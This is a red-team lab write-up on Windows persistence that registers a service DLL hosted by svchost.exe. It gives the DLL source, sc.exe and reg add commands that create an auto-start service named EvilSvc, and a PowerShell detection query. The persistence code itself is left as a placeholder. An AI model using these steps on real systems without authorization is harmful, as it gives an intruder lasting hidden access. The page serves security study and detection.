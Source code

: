 ```yaml
---
layout: post
title: "persisting in svchost.exe with a service dll servicemain"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


# Persisting in svchost.exe with a Service DLL

This is a quick lab that looks into a persistence mechanism that relies on installing a new Windows service, that will be hosted by an svchost.exe process.

## Overview

At a high level, this is how the technique works:

1. Create a service `EvilSvc.dll` DLL (the DLL that will be loaded into an `svchost.exe`) with the code we want executed on each system reboot
2. Create a new service `EvilSvc` with `binPath= svchost.exe`
3. Add the `ServiceDll` value to `EvilSvc` service and point it to the service DLL compiled in step 1
4. Modify `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` to specify under which group your service should be loaded into
5. Start `EvilSvc` service
6. The `EvilSvc` is started and its service DLL `EvilSvc.dll` is loaded into an `svchost.exe`

## Walkthrough

### 1. Compile Service DLL

First of, let's compile our service DLL as EvilSvc.dll. This DLL is going to be loaded into an `svchost.exe` as part of our service `EvilSvc` that we will register in a second:

```cpp
#include "pch.h"
#define SVCNAME TEXT("EvilSvc")

SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle;
HANDLE stopEvent = NULL;

VOID UpdateServiceStatus(DWORD currentState)
{
    serviceStatus.dwCurrentState = currentState;
    SetServiceStatus(serviceStatusHandle, &serviceStatus);
}

DWORD ServiceHandler(DWORD controlCode, DWORD eventType, LPVOID eventData, LPVOID context)
{
    switch (controlCode)
    {
        case SERVICE_CONTROL_STOP:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_SHUTDOWN:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_PAUSE:
            serviceStatus.dwCurrentState = SERVICE_PAUSED;
            break;
        case SERVICE_CONTROL_CONTINUE:
            serviceStatus.dwCurrentState = SERVICE_RUNNING;
            break;
        case SERVICE_CONTROL_INTERROGATE:
            break;
        default:
            break;
    }

    UpdateServiceStatus(SERVICE_RUNNING);

    return NO_ERROR;
}

VOID ExecuteServiceCode()
{
    stopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    UpdateServiceStatus(SERVICE_RUNNING);

    // #####################################
    // your persistence code here
    // #####################################

    while (1)
    {
        WaitForSingleObject(stopEvent, INFINITE);
        UpdateServiceStatus(SERVICE_STOPPED);
        return;
    }
}

extern "C" __declspec(dllexport) VOID WINAPI ServiceMain(DWORD argC, LPWSTR * argV)
{
    serviceStatusHandle = RegisterServiceCtrlHandler(SVCNAME, (LPHANDLER_FUNCTION)ServiceHandler);

    serviceStatus.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;
    serviceStatus.dwServiceSpecificExitCode = 0;

    UpdateServiceStatus(SERVICE_START_PENDING);
    ExecuteServiceCode();
}
```

### 2. Create EvilSvc Service

Let's now create a new service called `EvilSvc` and specify the `binPath` to be `svchost.exe -k DcomLaunch`, which will tell Service Control Manager that we want our `EvilSvc` to be hosted by `svchost.exe` in a service group called `DcomLaunch`:

```
sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
```

### 3. Modify EvilSvc - Specify ServiceDLL Path

Next, inside `HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\`, create a new value called `ServiceDll` and point it to the EvilSvc.dll service DLL compiled in step 1:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\EvilSvc.dll /f
```

{% hint style="warning" %}
`EvilSvc.dll` must exist in `C:\Windows\system32\EvilSvc.dll`
{% endhint %}

At this point, our `EvilSvc` should be created with all the right parameters as seen in the registry:

![](<../../.gitbook/assets/image (628).png>)

### 4. Group EvilSvc with DcomLaunch

As a final step, we need to tell the Service Control Manager under which service group our `EvilSvc`should load.&#x20;

We want it to get loaded in the `DcomLaunch` group, so we need to add our service name `EvilSvc` in the list of services in the `DcomLaunch` value in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`:

![](<../../.gitbook/assets/image (626).png>)

### 5. Start EvilSvc Service

We can now try loading our `EvilSvc` service:

```
sc.exe start EvilSvc
```

`EvilSvc` is now loaded into svchost.exe as part of a `DcomLauncher` services group:

![](<../../.gitbook/assets/image (630).png>)

## Detection

Below are some initial thoughts on how one could start hunting for this technique:

* Recently created services with `svchost.exe` as a `binpath`
* Listing out ServiceDLL value for all system services and looking for DLLs that are loaded from suspicious locations (i.e non c:\windows\system32):\
  `Get-ItemProperty hklm:\SYSTEM\ControlSet001\Services\*\Parameters | ? { $_.servicedll } | select psparentpath, servicedll`

![EvilSvc.dll location sticking out](<../../.gitbook/assets/image (631).png>)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function" %}
@spotheplanet
